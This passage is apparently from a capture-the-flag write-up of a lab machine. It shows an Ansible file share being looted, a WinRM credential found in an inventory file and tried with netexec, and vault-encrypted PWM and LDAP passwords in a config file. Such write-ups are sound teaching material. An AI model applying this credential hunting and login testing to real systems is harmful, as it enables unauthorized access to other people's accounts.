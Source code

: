 ```
getting file \Automation\Ansible\PWM\templates\context.xml.j2 of size 422 as PWM/templates/context.xml.j2 (0.4 KiloBytes/sec) (average 0.7 KiloBytes/sec)
getting file \Automation\Ansible\PWM\templates\tomcat-users.xml.j2 of size 388 as PWM/templates/tomcat-users.xml.j2 (0.5 KiloBytes/sec) (average 0.7 KiloBytes/sec)

```

#### Files

The `ansible_inventory` file has what looks like some credentials for WinRM:

```

ansible_user: administrator
ansible_password: Welcome1
ansible_port: 5985
ansible_connection: winrm
ansible_winrm_transport: ntlm
ansible_winrm_server_cert_validation: ignore

```

I’ll try those with `netexec`, but they don’t work:

```

oxdf@hacky$ netexec winrm authority.htb -u administrator -p 'Welcome1'
WINRM       10.10.11.222    5985   AUTHORITY        [*] Windows 10.0 Build 17763 (name:AUTHORITY) (domain:authority.htb)
WINRM       10.10.11.222    5985   AUTHORITY        [-] authority.htb\administrator:Welcome1

```

`defaults/main.yml` has configuration values for PWM:

```

pwm_run_dir: "{{ lookup('env', 'PWD') }}"

pwm_hostname: authority.htb.corp
pwm_http_port: "{{ http_port }}"
pwm_https_port: "{{ https_port }}"
pwm_https_enable: true

pwm_require_ssl: false

pwm_admin_login: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          32666534386435366537653136663731633138616264323230383566333966346662313161326239
          6134353663663462373265633832356663356239383039640a346431373431666433343434366139
          35653634376333666234613466396534343030656165396464323564373334616262613439343033
          6334326263326364380a653034313733326639323433626130343834663538326439636232306531
          3438

pwm_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          31356338343963323063373435363261323563393235633365356134616261666433393263373736
          3335616263326464633832376261306131303337653964350a363663623132353136346631396662
          38656432323830393339336231373637303535613636646561653637386634613862316638353530
          3930356637306461350a316466663037303037653761323565343338653934646533663365363035
          6531

ldap_uri: ldap://127.0.0.1/
ldap_base_dn: "DC=authority,DC=htb"
ldap_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          63303831303534303266356462373731393561313363313038376166336536666232626461653630
```